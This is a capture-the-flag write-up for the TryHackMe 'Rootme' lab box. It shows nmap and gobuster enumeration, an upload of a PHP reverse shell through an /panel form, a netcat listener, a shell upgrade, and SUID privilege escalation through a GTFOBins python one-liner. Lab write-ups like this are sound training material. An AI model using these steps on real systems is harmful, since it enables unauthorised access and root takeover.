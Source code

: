 ```yaml
---
title: "Rootme"
date: 2023-06-01 
img_path: ../../assets/img/Posts/rootme
image: rootme.png
categories: [Tryhackme, Easy]
tags: [nmap, enumeration, gobuster, gtfobins, netcat]     # TAG names should always be lowercase
---
```


> **[Rootme](https://tryhackme.com/room/rrootme)** is a fairly simple linux box. We shall start with `nmap` scan to see the ports open on the machine. We would then use `gobuster` for directory brute force and from there we would find where you can upload a file. So we shall upload a reverse shell script which will give us the initial access on the system. Finally we shall do privilege escalation by exploiting the `SUID` of one of the files to get root privileges.
{: .prompt-tip }

## Enumeration

We will begin with port scanning to know which ports are open. We shall use `nmap` . We have used `-sC` for default scripts, `-sV` to enumerate all versions, `-oA` to output all format in a file called `initial` and finally it’s `IP` address. Here is the results:

```bash
└─$ nmap -sC -sV -oA initial 10.10.151.224    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 11:31 EAT
Nmap scan report for 10.10.151.224
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.88 seconds
```

Well `Port 80` is open so we shall use `gobuster` for directory brute force and here is it’s results:

```bash
└─$ gobuster dir -u http://10.10.151.224/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.151.224/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/01 11:30:55 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.151.224/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.151.224/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.151.224/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.151.224/uploads/]
Progress: 4713 / 4714 (99.98%)===============================================================
2023/06/01 11:33:20 Finished
===============================================================
```

Well, we have a directory called `/panel` and if we go there we would see that we can upload some file. Since the website is running on `php` we need to find a `php` exploit that will give us a reverse shell.
![panel](panel.png)_panel_

## Initial access

We used the same exploit that was previously used on the [LazyAdmin](https://yrncollo.com/posts/LazyAdmin/) challenge to gain initial access. Change the `IP` and the `Port` that `netcat` will be listening from. The exploit can be found at the following GitHub repository: `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`.

```bash
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

Well we have gotten shell and we are `www-data` . So we need to upgrade our shell so that we have a stable shell.

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ ^Z
zsh: suspended  nc -lvnp 9001
```

Press `Ctrl + z` to background the session then:

```bash
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

bash-4.4$ export TERM=xterm
bash-4.4$
```

## Privilege Escalation

After gaining access as `www-data`, we need to escalate our privileges to gain root access. We can start by searching for files with the `SUID` bit set using the following command:

```bash
find / -perm /4000 2>/dev/null

```

This will show us all the files with the SUID bit set. We can then use [GTFOBins](https://gtfobins.github.io/) to find ways to exploit these files. In this case, Python was not set correctly and we can exploit it by using this from `gtfobins`:


```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

Once we have a root shell, we can navigate to the `/root` directory and read the `root.txt` file to get the flag.

```
# cd /root
# ls
root.txt
# cat root.txt
THM{changed_the_flag}
#

```
> Yeah that's it... We have successfully hacked into rootme machine and if you have any questions regarding the box you can ask on the comment section. **HAPPY HACKING CHEERS** ;)
{: .prompt-tip }

